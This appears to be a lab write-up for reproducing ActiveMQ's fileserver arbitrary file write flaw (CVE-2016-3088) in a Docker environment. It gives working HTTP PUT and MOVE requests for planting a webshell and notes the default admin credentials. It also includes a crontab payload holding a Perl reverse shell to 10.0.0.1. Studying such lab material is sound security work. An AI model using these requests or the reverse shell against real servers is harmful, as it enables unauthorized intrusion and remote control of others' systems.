

# ActiveMQ Arbitrary File Write Vulnerability (CVE-2016-3088)

## Environment Building

Build and run a vulnerability environment:

```
Docker-compose build
Docker-compose up -d
```

The environment listens to port 61616 and port 8161, of which 8161 is the web console port. This vulnerability appears in the web console.

Visit `http://your-ip:8161/` to see the web page, indicating that the environment has run successfully.

## Background Brief

ActiveMQ web console is divided into three applications, admin, api and fileserver, where admin is the administrator page, api is the interface, fileserver is the interface for storing files; admin and api need to log in before they can be used, fileserver does not need to log in.

Fileserver is a RESTful API interface. We can read and write files stored in it through HTTP requests such as GET, PUT, and DELETE. The purpose is to compensate for the defect that the message queue operation cannot transfer and store binary files, but later found:

1. Its usage rate is not high
2. File operations are prone to vulnerabilities

Therefore, ActiveMQ has closed the fileserver application by default in 5.12.x~5.13.x (you can open it in conf/jetty.xml); after 5.14.0, the fileserver application is completely removed.

During the test, you can pay attention to the version of ActiveMQ and avoid detours.

## Vulnerability details

This vulnerability appears in the fileserver application. The vulnerability principle is actually very simple, that is, the fileserver supports writing files (but not parsing jsp), and supports moving files (MOVE requests). So, we only need to write a file and then use MOVE to move it to any location, causing any file write vulnerability.

There are several ways to use file writing:

Write to webshell
2. Write files such as cron or ssh key
3. Write to libraries and configuration files such as jar or jetty.xml

The advantage of writing to webshell is that the threshold is lower and more convenient, but the fileserver is not parsed jsp, admin and api both need to log in to access, so it is a bit sloppy; write cron or ssh key, the advantage is to directly rebound Shell, it is more convenient, the disadvantage is that you need root privileges; write jar, a little trouble (requires jar back door), write xml configuration file, this method is more reliable, but there is a chicken point: we need to know activemq Absolute path.

Let me talk about the above several methods of use.

### Write to webshell

As mentioned earlier, writing to webshell requires writing in the admin or api application, and both applications require login to access.

The default ActiveMQ account password is `admin`. First visit `http://your-ip:8161/admin/test/systemProperties.jsp` to view the absolute path of ActiveMQ:


Then upload the webshell:

```
PUT /fileserver/2.txt HTTP/1.1
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 120976

webshell...
```

Move to the api folder (`/opt/activemq/webapps/api/s.jsp`) in the web directory:

```
MOVE /fileserver/2.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/s.jsp
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0


```

Access webshell (login required):


### Write crontab, automate shell

This is a more robust approach. First upload the cron configuration file (note that the newline must be `\n`, not `\r\n`, otherwise the crontab implementation will fail):

```
PUT /fileserver/1.txt HTTP/1.1
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 248

*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="10.0.0.1";$p=21;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
##
```

Move it to `/etc/cron.d/root`:

```
MOVE /fileserver/1.txt HTTP/1.1
Destination: file:///etc/cron.d/root
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0


```

If both of the above requests return 204, the write is successful. Waiting for the rebound shell:



This method requires ActiveMQ to be root, otherwise it cannot be written to the cron file.

### Write jetty.xml or jar

In theory we can override jetty.xml, remove the login restrictions for admin and api, and then write to webshell.

In some cases, everyone such as jetty.xml and jar is a user of the web container, so the success rate of writing crontab is higher.

Not tested yet.